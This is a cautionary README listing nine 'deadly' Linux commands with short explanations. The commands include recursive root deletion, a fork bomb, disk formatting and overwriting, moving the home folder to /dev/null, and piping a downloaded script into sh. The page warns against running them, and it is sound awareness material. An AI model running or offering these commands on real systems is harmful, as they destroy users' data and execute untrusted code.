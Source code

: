 :bomb: Suicide Linux
=====================

*Simple list of deadly linux commands. All the Linux that nobody will teach you, but that you will experience in first person. At least one time in your life.*

Some of these commands need administration rights (e.g. sudo ...) to be executed, some Linux distributions enforce specific protection mechanisms. So it is not so simple to destroy your Linux machine, but pay attention in any case. 

## :warning: Warning!!
Most of the commands in this tutorial are **really dangerous**!!!
DO NOT use these commands on a real system if you have no idea of what you are going to do.


#### :one: Wipeout!

`rm -fR /`

With this command you asking to delete every files in your disk. Your only hope is that some security control will denied you to do something so silly.


#### :two: Fork Bomb

`:(){ :|: & };:`

Elegant and deadly as a dark-lady. This short shell script replicates itself until all the processing capabilities of your computer will be occupied. Shutdown and restart seems to be the only solution.


#### :three: Tabula rasa

`mkfs.ext4 /dev/sda1`

Do you remember `FORMAT C:` of the old DOS? this have the same result.

#### :four: Right Time, but Wrong Place

`date > /dev/sda`

Redirecting will write raw bytes on your disk partition. What can never will be? nothing good! surely.


#### :five: Collecting Junk is a Dirty Job

`dd if=/dev/random of=/dev/sda`


#### :six: Have to start again

`mv ~ /dev/null`

This command will move all your personal data in the Linux equivalent of a Black Hole.


#### :seven: Danger from the Outside

`wget http://example.com/something -O – | sh –`


#### :eight: No More Busy

`find / -name busybox -exec rm -f {} \;`

#### :nine: Don't Panic

`cat /dev/port`
How to obtain a kernel panic?

## Lessons Learned
* execute commands with root privileges only if it is strictly necessary
* beware from `rm -r` commands
* never handle partions handles (such as `/dev/sda1`)
* never execute untrusted content


## References
* [How to Geek](http://www.howtogeek.com/125157/8-deadly-commands-you-should-never-run-on-linux/)
